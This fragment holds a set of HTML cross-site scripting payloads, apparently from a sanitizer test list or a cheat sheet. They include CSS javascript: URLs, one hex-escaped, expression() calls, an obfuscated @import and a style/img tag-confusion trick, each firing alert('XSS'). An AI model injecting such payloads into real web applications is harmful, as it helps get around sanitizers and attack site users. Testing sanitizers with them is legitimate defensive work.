 
<table>
</table><table><tbody><tr><td>
<div style="background-image: url(javascript:alert('XSS'))">
<div style="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<div style="width: expression(alert('XSS'));">
<style>@im\port'\ja\vasc\ript:alert("XSS")';</style>
<img style="xss:expr/*XSS*/ession(alert('XSS'))">

<style><img src="</style><img src="x">
